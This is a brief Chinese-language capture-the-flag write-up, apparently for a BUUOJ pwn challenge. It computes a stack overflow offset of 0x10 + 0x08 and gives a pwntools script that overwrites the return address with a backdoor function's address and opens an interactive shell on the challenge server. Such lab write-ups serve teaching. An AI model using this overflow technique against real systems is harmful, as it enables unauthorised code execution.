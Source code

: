 <img src="../_media/image-20241027165131245.png" alt="image-20241027165131245" />

要溢出到返回函数那里去，大小就是0x10 + 0x08 



然后看到有个backdoor函数，看他的地址即可：

![image-20241027165238295](../_media/image-20241027165238295.png)

溢出到入口函数也是可以的，看你喜欢



然后最终exp为：

```python
from pwn import *

r = remote('node5.buuoj.cn',29674)

backdoor = 0x004006EA

payload = b'a' * (0x10 + 0x08)   +  p64(backdoor)

r.sendline(str(255))

r.recvuntil('?')
r.sendline(payload)
r.interactive()
```
